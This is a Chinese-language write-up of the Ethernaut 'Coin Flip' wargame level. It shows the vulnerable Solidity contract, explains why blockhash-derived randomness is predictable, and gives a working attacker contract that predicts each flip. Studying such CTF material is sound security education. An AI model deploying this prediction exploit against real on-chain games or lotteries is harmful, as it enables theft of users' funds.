



## Level_3.Coin Flip

要求：

> 是一个抛硬币游戏，需要连续猜对10次；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    // 抛硬币函数
    function flip(bool _guess) public returns (bool) {
        // 获取上一个区块的哈希
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }
        // 赋值到lastHash
        lastHash = blockValue;
        // 用上一个块的哈希除以一个值来实现随机效果
        uint256 coinFlip = blockValue / FACTOR;
        // 判断当前回合结果
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

### 分析

该合约实现了一个通过区块哈希来实现随机效果的抛硬币游戏，但仔细想一下并不是真正的随机；

由于以太坊区块生成速度不是特别快，当我们查到上一个区块的哈希值时的同时进行猜硬币，两个动作查询的上一个区块哈希值大概率是同一个；

所以只需要写一个脚本攻击即可，速度也不能太快，不然可能交易失败；

### 攻击

攻击合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Ethernaut.sol";

contract Exp {
    // 抛硬币合约对象
    CoinFlip public coinfilp;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    // 设置抛硬币合约
    function setContract(address addr) public {
        coinfilp = CoinFlip(addr);
    }

    // 攻击合约
    function Attack() public returns (bool){
        // 获取上一个区块的值
        uint256 lastblockValue = uint256(blockhash(block.number - 1));
        // 计算硬币结果
        uint256 flip = lastblockValue / FACTOR;
        bool res;
        if (flip == 1){
            res = true;
        } else {
            res = false;
        }
        // 调用抛硬币合约执行
        return coinfilp.flip(res);
    }
}
```

设置合约地址：



连续攻击10次：


最后一次攻击的区块查询：



查看结果：



